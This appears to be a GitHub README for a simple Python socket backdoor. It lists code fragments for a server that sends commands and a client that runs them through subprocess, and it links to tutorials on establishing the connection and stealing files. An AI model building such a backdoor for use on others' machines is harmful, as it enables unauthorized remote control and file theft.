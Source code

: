 # Backdoor-Client-Server-Socket-Python
Simple backdoor using lib python's socket

YouTube Video: https://youtu.be/pE5qPvMZ-DM

# lib
- `from socket import *` # for connection
- `import subprocess` # for cmd command

# Server
- `sock = socket(AF_INET, SOCK_STREAM)` # set TCP socket
- `port = 12345` # port of server
- `sock.bind(('', port)) && sock.listen(1)` # set server
- `conn, addr = sock.accept()` # conn = connection && addr = (client)address
- `conn.send(command.encode())` # send in array bytes
- `conn.recv(1024).decode("utf-8")` #receive and convert in string

# Client
- `CMD = subprocess.Popen(command, ...)` # set subprocess for send CMD command

# Guides
|Guides|Links|
|--|--|
|Establish A Connection|[Link](https://www.inforge.net/forum/threads/1-come-creare-una-backdoor-in-python-stabilire-una-connessione.603065/)|
|Steal Files|[Link](https://www.inforge.net/forum/threads/2-come-creare-una-backdoor-in-python-rubare-i-file.603756/)|
